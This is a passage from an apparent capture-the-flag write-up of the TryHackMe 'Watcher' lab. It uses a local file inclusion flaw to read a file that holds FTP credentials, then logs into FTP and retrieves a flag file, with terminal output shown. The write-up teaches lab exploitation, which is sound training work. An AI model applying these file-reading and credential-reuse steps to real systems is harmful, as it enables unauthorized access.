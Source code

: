 Great, it is vulnerable to LFI, let's now try to pull the file we found earlier in robots.txt:

![creds](/assets/img/tryhackme/watcher/creds.png)

We have manged to read that file, and it seems we have got some FTP credentials that we can use.

## FTP
Let's login to FTP and see what's there: `ftp {target_IP}`

## Flag 2

```terminal
┌──(sirius㉿kali)-[~/CTF/THM/watcher]                                                                                                                        
└─$ ftp 10.10.18.205                                                                                                                                         
Connected to 10.10.18.205.                                                                                                                                   
220 (vsFTPd 3.0.3)                                                                                                                                           
Name (10.10.18.205:sirius): ftpuser                                                                                                                          
331 Please specify the password.                                                                                                                             
Password:                                                                                                                                                    
230 Login successful.                                                                                                                                        
Remote system type is UNIX.                                                                                                                                  
Using binary mode to transfer files.                                                                                                                         
ftp> ls                                                                                                                                                      
229 Entering Extended Passive Mode (|||43157|)                                                                                                               
150 Here comes the directory listing.                                                                                                                        
drwxr-xr-x    2 1001     1001         4096 Dec 03  2020 files                                                                                                
-rw-r--r--    1 0        0              21 Dec 03  2020 flag_2.txt                                                                                           
226 Directory send OK.                                                                                                                                       
ftp> get flag_2.txt                                                                                                                                          
local: flag_2.txt remote: flag_2.txt                                                                                                                         
229 Entering Extended Passive Mode (|||47137|)                                                                                                               
150 Opening BINARY mode data connection for flag_2.txt (21 bytes).                                                                                           
100% |****************************************************************************************************************|    21      113.30 KiB/s    00:00 ETA
226 Transfer complete.                                                                                                                                       
21 bytes received in 00:00 (0.21 KiB/s)                                                                                                                      
```